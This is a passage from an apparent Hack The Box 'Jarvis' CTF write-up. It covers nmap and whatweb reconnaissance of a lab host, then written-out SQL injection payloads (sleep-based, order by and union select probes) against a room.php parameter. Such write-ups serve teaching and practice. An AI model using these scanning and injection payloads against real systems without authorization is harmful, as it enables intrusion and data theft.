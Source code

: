 ```bash
ping -c 2 10.10.10.143
whichSystem.py 10.10.10.143
sudo nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.143 -oG allPorts
nmap -sCV -p22,80 10.10.10.143 -oN targeted
cat targeted
#     OpenSSH 7.4p1 Debian 10+deb9u6
#     google.es --> OpenSSH 7.4p1 10+deb9u6 launchpad     Stretch
#     Apache httpd 2.4.25
#     google.es --> Apache httpd 2.4.25 launchpad         Stretch

whatweb http://10.10.10.143
# Email[supersecurehotel@logger.htb]
# http://10.10.10.143/
```

<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_01.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_02.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_03.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_04.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The web service represents a large attack surface for any pentester, so I focus my attention to make an accurate enumeration since the other service (**SSH**) always proves to be secure and very unlikely to be compromised. Some functionalities and pages are not developed but I find interesting information about the protocol and the method used when making a room reservation. As the **GET** method is used in the data transfer through the **URL**, I perform some basic tests to check if the server is vulnerable to **[IDOR](https://portswigger.net/web-security/access-control/idor){:target="_blank"}** or **[SQLi](https://portswigger.net/web-security/sql-injection){:target="_blank"}**. After investing time, researching different **SQLi** techniques and even resorting to trial and error, I succeed in finding a **SQLi vulnerability**.

```html
http://10.10.10.143/dining-bar.php
http://10.10.10.143/rooms-suites.php
# IDOR, SQLi ?

http://10.10.10.143/room.php?cod=7
http://10.10.10.143/room.php?cod=0
# Redirect
http://10.10.10.143/room.php?cod=-1
# ?

http://10.10.10.143/room.php?cod=-1'
http://10.10.10.143/room.php?cod=-1' or sleep(5)-- -
http://10.10.10.143/room.php?cod=-1' and sleep(5)-- -
http://10.10.10.143/room.php?cod=-1 and sleep(5)-- -
http://10.10.10.143/room.php?cod=-1 order by 10-- -
http://10.10.10.143/room.php?cod=-1 order by 1-- -
# :(

http://10.10.10.143/room.php?cod=-1 union select 1-- -
...
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6,7-- -
# :)
```
